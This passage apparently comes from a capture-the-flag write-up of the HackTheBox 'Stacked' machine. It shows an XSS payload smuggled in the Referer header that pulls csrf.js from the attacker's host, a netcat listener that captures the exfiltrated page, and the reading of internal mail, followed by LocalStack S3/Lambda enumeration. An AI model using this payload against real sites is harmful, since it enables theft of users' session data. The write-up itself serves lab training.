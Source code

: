 Starting a web service on port 80:
```
python3 -m http.server 80
```

Starting a listener on port 8000 to redirect the page:
```
nc -lvnp 8000 > page.html
```

Sending the request with the modified _Referer header_ to execute our JavaScript code:
```
POST /process.php HTTP/1.1
(...)
Referer: <script src="http://10.10.14.3/csrf.js"></script>
```

After sending the request, it will execute the JavaScript code and the listener on my IP and port 8000 redirects the connection into _page.html_, which can be opened with any browser.

There are some links, which we don't have access to:
- _dashboard.php_
- _compose.php_
- _read-mail.php_

The file _read-mail.php_ uses the _id_ parameter and the first one has an email from _Jeremy Taint_ which could contain useful information.
By modifying the target in our script, it is possible to get the other files:
```js
var target = "http://mail.stacked.htb/read-mail.php?id=1";
// (...)
```

After sending the request again, the contents of the email can be read:
```
Hey Adam, I have set up S3 instance on s3-testing.stacked.htb so that you can configure the IAM users, roles and permissions.
I have initialized a serverless instance for you to work from but keep in mind for the time being you can only run node instances.
If you need anything let me know. Thanks.
```

The hostname _s3-testing.stacked.htb_ has to be added to our _/etc/hosts_ file to access it.

## Enumerating S3 Bucket

When browsing to the hostname, it shows the default page of **LocalStack** that the S3 Bucket is running.
In the _docker-compose.yml_ file, we saw that _Lambda_ is used and in the mail from _Jeremy_ it is also mentioned that a _serverless instance_ is initiated, which only runs _node instances_.

Lets get further into this and check if we are able to create Lambda services, by testing it with [sample code from the AWS documentation](https://docs.aws.amazon.com/lambda/latest/dg/with-android-create-package.html).

Creating _index.js_ to output simple string:
```js
exports.handler = function(event, context, callback) {
        return "Lambda Test"
}
```
